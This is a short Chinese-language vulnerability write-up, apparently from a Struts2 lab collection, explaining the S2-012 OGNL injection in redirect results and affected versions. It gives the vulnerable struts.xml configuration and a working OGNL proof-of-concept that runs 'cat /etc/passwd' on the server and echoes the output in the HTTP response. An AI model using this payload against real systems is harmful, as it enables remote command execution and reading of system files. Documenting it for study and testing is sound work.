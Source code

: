 # Struts2-012

## 漏洞介绍

该漏洞是在`struts.xml`中使用了重定向类型，并且还使用 ${param_name} 作为重定向变量。当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## 漏洞版本

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 配置文件内容

`struts.xml`

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

## poc

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()
}
```
## 参考
>https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md
